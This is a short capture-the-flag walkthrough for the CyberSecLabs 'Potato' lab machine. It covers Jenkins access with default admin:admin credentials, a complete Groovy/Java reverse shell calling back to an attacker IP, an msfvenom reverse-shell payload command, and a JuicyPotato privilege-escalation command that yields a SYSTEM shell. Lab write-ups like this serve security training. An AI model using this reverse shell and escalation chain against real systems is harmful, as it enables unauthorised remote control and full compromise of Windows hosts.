


# CyberSecLabs : Potato


Run a full nmap scan: Notice port 8080. It has Jenkins login, admin:admin 





Pure groovy/ java reverse shell.
>https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76




Reverse shell code:

```
String host="10.10.0.40";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

check the listener for a shell at port 443. 

whoami/priv:
SeImpersonateToken 
Also, box name is a big hint. My all time favourite ```Juicy Potato```.

Upload the JuicyPotato.exe
Upload the msfvenom reverse.exe as usual

```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.40 LPORT=53 -f exe > rev.exe
```

```cmd
JuicyPotato.exe -l 1337 -p rev.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

Check the listener at port 53, you will have a SYSTEM shell
